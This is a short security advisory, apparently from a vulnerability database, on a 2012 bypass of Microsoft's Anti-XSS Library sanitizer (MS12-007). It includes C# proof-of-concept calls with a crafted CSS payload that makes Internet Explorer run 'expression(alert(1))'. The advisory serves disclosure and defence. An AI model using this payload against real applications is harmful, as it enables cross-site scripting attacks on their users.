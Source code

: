 ```yaml
---
layout: vuln
credit:
    - adico
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-07-10' 
alephid: ALEPH-2012004
date: '2012-01-19'
title: 'Microsoft Anti-XSS Library Bypass'
severity: moderate
product:
    - Microsoft Anti-XSS Library

mitigation: 
    - 3.0
    - 4.0

references:
    - src: MS12-007
      url: http://technet.microsoft.com/en-us/security/bulletin/ms12-007
---
```

Microsoft Anti-XSS Library 3.0 and 4.0 are vulnerable to an attack in which an attacker is able to create a specially formed CSS, that after passing through the GetSafeHTML or GetSafeHTMLFragment methods, contains an expression that triggers a JavaScript call in Internet Explorer.

The following ASP.NET code demonstrates the vulnerability:

```csharp
string data = Microsoft.Security.Application.Sanitizer.GetSafeHtml("<html>a<style><!--div{font-family:Foo,Bar\\,'a\\a';font-family:';color:expression(alert(1));y'}--></style><div>b</div></html>");

string data = Microsoft.Security.Application.Sanitizer.GetSafeHtmlFragment("<div style=\"font-family:Foo,Bar\\,'a\\a';font-family:';color:expression(alert(1));y'\">aaa</div>");
```

Explanation:
The string value can be broken down as follows:
```css
div{
  font-family:Foo,Bar\,'a\a';
  font-family:';color:expression(alert(1));y'
}
```
A bug in the Anti-XSS library causes the closing apostrophe in the first CSS rule to be dropped. Because of the string not being properly terminated, Internet Explorer now renders this CSS in a different way, which triggers a javascript call:

```css
div{

font-family:Foo,Bar\,'a\a;font-family:';
color:expression(alert(1));

y'

}
```
Due to this weakness, every application that relies on either GetSafeHTML or GetSafeHtmlFragment to sanitize user supplied data is vulnerable to XSS.